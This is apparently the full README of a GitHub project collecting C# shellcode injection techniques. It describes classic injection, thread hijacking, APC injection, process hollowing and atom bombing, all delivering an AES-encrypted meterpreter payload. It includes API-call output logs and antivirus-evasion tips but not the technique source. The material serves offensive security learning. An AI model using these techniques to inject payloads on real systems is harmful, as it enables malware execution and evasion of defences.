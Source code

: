 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

If you do use any of the code in these repositories **keep it legal!**

## Assembly Injection
You can use a [PowerShell assembly injection technique](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/assembly-injection.ps1) if you want to avoid writing .Net binaries to disk.

## Shellcode Runner
[ShellcodeRunner.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ShellcodeRunner.cs) : This technique isn't strictly an injection technique (because we execute the shellcode in the same process) but is the simplest of all techniques. We ensure the shellcode uses a fixed memory location in an `unsafe` context. We change the protection on the page where the shellcode is located so we can execute it. We then use a C# delegate function to execute the shellcode.

```
[+] Using technique: ShellcodeInjectionTechniques.ShellcodeRunner
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x20D000418E0
[+] Executing shellcode - memory address: 0x20D000418E0
```

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

## Local Thread Hijacking
[LocalThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/LocalThreadHijack.cs) : This technique creates a new local thread in a suspended state, we then hijack the thread, sets the instruction pointer (RIP) to our injected code and then resume the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.LocalThreadHijack
[+] CreateThread() - thread handle: 0x374
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x270800418E0
[+] GetThreadContext() - thread handle: 0x374
[+] RIP is: 0x7FFA79EE2630
[+] SetThreadContext(), RIP assigned: 0x270800418E0
[+] ResumeThread() - thread handle: 0x374
```

## Asychronous Procedure Call Injection
[ACPInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/APCInjection.cs) : This technique is similar to the Thread Hijacking technique. We inject the shellcode into a remote thread, then queue an APC object in the thread. When the thread enters an alertable state (when it calls SleepEx, SignalObjectAndWait, MsgWaitForMultipleObjectsEx, WaitForMultipleObjectsEx, or WaitForSingleObjectEx) it runs our shellcode pointed to by our queued APC object. 

```
[+] Found process: 25320
[+] Using technique: ShellcodeInjectionTechniques.APCInjection
[+] Found thread: 23796
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x24E064D0000
[+] WriteProcessMemory() - remote address: 0x24E064D0000
[+] QueueUserAPC() - thread handle: 0x378
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

## Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

## Atom Bombing
[AtomBomb.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/AtomBomb.cs) : This technique is interesting in how we write shellcode to the target process. We use the Global Atom Table which allows us to write null terminated strings with a maximum size of 255 bytes. We find a code cave to write our shellcode to, then use APC calls to trigger the target process to read the Atom Names into memory. Finally we use a couple of APC calls to change the memory protection of the target and execute the shellcode.

My code differs from the original [Atom Bombing](https://www.fortinet.com/blog/threat-research/atombombing-brand-new-code-injection-technique-for-windows) technique, written in C/C++. First, I chain Atom Names together, using multiple APCs, to form a shellcode of larger than 255 bytes. I don't use ROP chains to force the target process to call `VirtualProtect` and then execute the code, I use the APC queue.

This code requires the main thread to enter an alertable state in order to execute the APC queue and I do not clean up after the shellcode execution, the target process becomes unstable. I plan to improve on this technique (by seraching for alertable threads and cleaning up afterwards), but as a PoC it works well.

```
[+] Found process: 14140
[+] Using technique: ShellcodeInjectionTechniques.AtomBomb
[+] Found thread: 5940
[+] OpenThread() - thread handle: 0xD0
[+] FindWritablePages() - number found: 2
[+] Found a suitable code cave - pWritable: 0x2CE60031
[+] GetProcAddress() - pGlobalGetAtomNameW: 0x7FFE20EB2680
[+] GlobalAddAtom() - ATOM: 0xC091
[+] NtQueueApcThread() - pWritable: 0x2CE60031
[+] GlobalAddAtom() - ATOM: 0xC06F
[+] NtQueueApcThread() - pWritable: 0x2CE600F9
[+] GlobalAddAtom() - ATOM: 0xC080
[+] NtQueueApcThread() - pWritable: 0x2CE601C1
[+] GlobalAddAtom() - ATOM: 0xC088
[+] NtQueueApcThread() - pWritable: 0x2CE60289
[+] GlobalAddAtom() - ATOM: 0xC084
[+] NtQueueApcThread() - pWritable: 0x2CE60351
[+] GetProcAddress() - pVirtualProtect: 0x7FFE20EBBC70
[+] NtQueueApcThread() PAGE_EXECUTE_READWRITE - codeCave: 0x2CE60031
[+] QueueUserAPC() - codeCave: 0x2CE60031
```

## Notes
Remember you will need to start a process to inject to, except when using the shellcode runner, local thread hijack technique or the process hollowing technique (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```

When using the shellcode runner, local thread hijack technique or the process hollowing technique you will need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```
